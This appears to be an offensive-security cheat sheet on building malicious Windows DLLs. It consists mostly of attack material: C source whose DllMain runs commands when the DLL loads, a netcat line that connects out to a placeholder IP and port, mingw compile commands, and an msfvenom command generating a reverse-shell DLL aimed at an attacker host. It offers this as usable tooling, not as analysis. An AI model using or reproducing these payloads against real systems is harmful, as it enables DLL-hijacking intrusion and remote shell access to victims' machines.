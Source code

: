## DLL Payloads without Metasploit
```
#include <windows.h>
int fireLazor()
{
 //WinExec("nc", 0);
 WinExec("cmd \"d:some path\\program.bat\" \"d:\\other path\\file name.ext\"",SW_SHOW_MINIMIZED);
 return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
 fireLazor();
 return 0;
}
```
Upload nc.exe to the remote machine when it doesn't build in.
and
```
WinExec("cmd -c nc.exe <ip-address> <port>",SW_SHOW_MINIMIZED);
```
Compile the code as follows:
```
i686-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL main.cpp
i686-w64-mingw32-g++ -shared -o main.dll main.o -Wl,--out-implib,main.a
```
---
## Metasploit/MSFVenom
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.X.X LPORT=4444 -f dll -o externalupload.dll
```
